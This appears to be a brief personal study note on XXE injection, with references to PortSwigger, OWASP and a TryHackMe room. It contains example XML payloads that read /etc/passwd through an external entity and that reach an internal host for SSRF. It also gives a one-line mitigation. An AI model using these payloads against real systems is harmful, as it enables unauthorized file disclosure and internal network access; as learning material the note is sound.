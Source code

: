 # XXE Vulnerablity

XML external entity injection (also known as XXE) is a web security vulnerability that enables an attacker to interfere with the processing of XML data within a web application. XXE vulnerabilities arise due to the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

## XXE to retrieve files
Portswigger example of stock level in  shopping application:
`<?xml version="1.0" encoding="UTF-8"?> <stockCheck><productId>381</productId></stockCheck>`

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

## XXE to SSRF attacks
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`

3. Blind XXE to exfiltrate data out-of-band
4. Blind XXE to retrieve data via error messages


## Mediation

Configuration of a XML interperter disallowing the inclusion of external entities enabling attack against applications that interpret XML language in their parameters. 



## References

[THM Walkthrough Room on XXE CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)
[Portswigger](https://portswigger.net/web-security/xxe)
[BrightSec](https://brightsec.com/blog/xxe-attack/)
[OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)